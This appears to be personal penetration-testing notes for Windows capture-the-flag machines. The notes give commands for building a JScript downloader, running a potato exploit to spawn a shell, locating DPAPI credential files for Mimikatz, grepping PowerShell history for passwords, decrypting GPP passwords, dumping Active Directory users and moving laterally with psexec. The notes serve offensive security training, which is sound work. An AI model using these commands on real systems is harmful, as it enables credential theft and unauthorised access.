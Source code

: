 ```
		echo 'var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");' > wget.js
		echo 'WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);' >> wget.js
		echo 'WinHttpReq.Send();' >> wget.js
		echo 'WScript.Echo(WinHttpReq.ResponseText);' >> wget.js

		/* To save a binary file use this code instead of previous line
		echo 'BinStream = new ActiveXObject("ADODB.Stream");' > wget.js
		echo 'BinStream.Type = 1;' >> wget.js
		echo 'BinStream.Open();'   >> wget.js
		echo 'BinStream.Write(WinHttpReq.ResponseBody);' >> wget.js
		echo 'BinStream.SaveToFile("out.bin");' >> wget.js
*/
```
* ./potato * shell.exe

## Mimikatz

* `cmdkey /list` to see if there are stored credentials. 

[better is watch access ippsec video]

* ls /users/security/appdata/roaming/microsoft/protect/   <=== there will be some S-1---- like this, this is SID, copy this ID
* dir /users/security/appdata/roaming/microsoft/protect/sid
* (then there will be some UUID named file so get all of those files).
* download a md5 named file from c:/users/security/appdata/roaming/microsoft/credentials/




## Try to get root(Priv esc windows)


* In powershell check history:
	* cat (Get-PSReadlineOption).HistorySavePath
	* cat (Get-PSReadlineOption).HistorySavePath | sls password
	* cat (Get-PSReadlineOption).HistorySavePath | sls accountpassword

* sudo -l version of windows:
	* upload accesschk.exe
	* accesschk.exe /accepteula -uwcqv "Administrator" *

* Check for online exploits available
	*  After enumerating the OS version and Service Pack you should find out which privilege escalation vulnerabilities could be present. Using the KB patch numbers(`wmic qfe get Caption,Description,HotFixID,InstalledOn`) you can grep the installed patches to see if any are missing.
	* `C:\Windows\system32> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."` use this to check is required KB patches are installed or not 
	
* if we get groups.xml
	* decrypting passwords using : `gpp-decrypt groups.xml`, this will give us a domain `X` and password for it
	* Dumping Active Directory users from linux with Impackets GetADUsers
		* from impacket module, there is a file `GetAdADUsers.py`, do, `$GetAdADUsers.py -all -dc-ip IP active.htb/X` and paste password
	* After having password, we can try `psexec.py active.htb/X@IP`
